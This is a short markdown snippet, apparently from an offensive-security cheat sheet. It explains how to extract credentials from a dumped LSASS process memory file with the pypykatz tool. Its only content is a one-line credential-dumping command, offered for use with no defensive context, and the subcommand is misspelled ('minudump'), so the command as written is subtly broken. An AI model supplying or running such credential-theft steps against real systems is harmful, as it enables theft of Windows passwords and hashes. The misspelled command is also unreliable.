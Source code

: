 # Pypykatz

## Dump lsass process memory with pypykatz

#### 1) Dump LSASS dumpfile

    pypykatz lsa minudump lsass.DMP 
